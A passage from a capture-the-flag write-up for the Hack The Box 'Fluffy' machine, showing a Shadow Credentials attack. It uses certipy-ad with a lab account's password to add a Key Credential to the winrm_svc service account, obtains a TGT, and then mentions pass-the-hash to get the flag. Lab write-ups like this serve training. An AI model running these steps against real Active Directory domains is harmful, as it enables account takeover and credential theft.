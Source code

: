 then with service accounts access we can do shadow credentiel to get ntlm hash
where did i know about shadow credentiel? with genericWrite rights i searched what i can do with that found this [GenericWrite](https://bloodhound.specterops.io/resources/edges/generic-write) then from here i've gone to dig deeper in the shadow part [DACL misconfiguration: are your data vulnerable to a Shadow Credentials cyberattack](https://i-tracing.com/blog/dacl-shadow-credentials/)

```bash
certipy-ad shadow auto -u p.agila@fluffy.htb -p prometheusx-303 -account winrm_svc                                    
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: FLUFFY.HTB.
[!] Use -debug to print a stacktrace
[*] Targeting user 'winrm_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'a02d26f1efab476699967579e9038f20'
[*] Adding Key Credential with device ID 'a02d26f1efab476699967579e9038f20' to the Key Credentials for 'winrm_svc'
[*] Successfully added Key Credential with device ID 'a02d26f1efab476699967579e9038f20' to the Key Credentials for 'winrm_svc'
[*] Authenticating as 'winrm_svc' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'winrm_svc@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'winrm_svc.ccache'

```

From there i can Pth to the account and get the flag

![](Season%208%20-%20Fluffy-8.png)
